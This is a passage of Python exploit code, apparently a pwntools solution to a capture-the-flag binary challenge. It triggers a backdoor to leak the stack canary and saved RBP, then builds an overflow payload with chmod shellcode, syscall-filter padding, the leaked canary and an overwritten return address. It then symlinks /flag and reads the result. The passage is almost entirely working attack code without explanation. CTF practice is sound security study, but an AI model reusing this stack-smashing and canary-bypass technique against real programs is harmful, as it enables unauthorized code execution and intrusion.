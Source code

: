 ```python
    except Exception as e:
        log.exception(f"An error occurred while sending payload: {e}")


def leak_data(target):
    try:
        target.sendlineafter(b"Payload size: ", trigger_length)
        send_payload(target, backdoor_trigger)
        response = target.recvuntil(backdoor)
        log.debug(response.decode("utf-8", errors="ignore"))

        canary = b"\x00" + target.recv(0x7)
        rbp = target.recv(0x6)
        log.success(f"Canary: {to_hex_bytes(canary)}\nRBP: {to_hex_bytes(rbp)}")

        return [canary, rbp]
    except Exception as e:
        log.exception(f"An error occurred while leaking canary: {e}")


def construct_payload(target):
    canary, rbp = leak_data(target)
    rbp = int.from_bytes(rbp, "little")

    ret_addr = rbp - fixed_offset

    shellcode = asm(shellcraft.chmod("f", 0o4))
    shellcode_length = len(shellcode)
    shellcode += b"".ljust(allowed_syscall_offset - shellcode_length, b"A")
    shellcode += p32(0x5A)  # SYS_chmod
    shellcode += p32(0x01)  # SYS_write
    shellcode += b"".ljust(padding_size - (allowed_syscall_offset + 0x8), b"A")
    shellcode += canary
    shellcode += padding_to_ret
    shellcode += p64(ret_addr)

    return shellcode


def attack(target, payload):
    try:
        os.system("ln -s /flag f")

        payload_size = f"{len(payload)}".encode()
        target.sendlineafter(b"Payload size: ", payload_size)

        target.recvuntil(b"Send your payload")
        send_payload(target, payload)
        response = target.recvall(timeout=5)
        log.debug(response.decode("utf-8", errors="ignore"))

        try:
            with open("./f", "r") as file:
                content = file.read()

                log.success(content)
                return True
        except FileNotFoundError:
            log.exception("The file './f' does not exist.")
        except PermissionError:
            log.failure("Permission denied to read './f'.")
        except Exception as e:
            log.exception(f"An error occurred while performing attack: {e}")
```